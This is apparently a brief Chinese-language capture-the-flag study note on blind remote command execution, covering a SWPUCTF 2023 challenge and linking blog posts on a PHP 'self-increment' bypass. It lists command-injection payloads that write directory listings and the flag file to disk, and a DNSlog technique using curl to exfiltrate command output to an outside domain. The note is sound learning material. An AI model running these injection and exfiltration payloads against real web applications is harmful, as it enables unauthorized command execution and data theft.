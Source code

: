 无回显RCE

[TOC]

[[SWPUCTF 2023 秋季新生赛\]RCE-PLUS | NSSCTF](https://www.nssctf.cn/problem/4502)

记录一下学习过程。
1，
直接写入，?cmd=ls / >1.txt
然后可以发现flag,
?cmd=cat /fl* >2.txt
拿到flag
2,
使用dnslog
http://www.dnslog.cn/
在这使用
?cmd=curl `命令`.域名
![NSSIMAGE](https://www.nssctf.cn/files/2023/12/2/c0181e2396.jpg)
在左边获取域名，执行完命令后点击右边，



###### 自增

[CTFSHOW每周大挑战——RCE篇_rce挑战1-CSDN博客](https://blog.csdn.net/qq_61955196/article/details/127932968?ops_request_misc=%7B%22request%5Fid%22%3A%22170571807016800184148811%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170571807016800184148811&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-2-127932968-null-null.142^v99^pc_search_result_base1&utm_term=ctf RCE挑战4&spm=1018.2226.3001.4187)

https://blog.csdn.net/qaq517384/article/details/127976798?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170571702116800211587810%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=170571702116800211587810&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-4-127976798-null-null.142^v99^pc_search_result_base1&utm_term=ctf%20%E8%87%AA%E5%A2%9E%20%E9%95%BF%E5%BA%A6%E9%99%90%E5%88%B6&spm=1018.2226.3001.4187

vscode中有脚本，zizeng.php
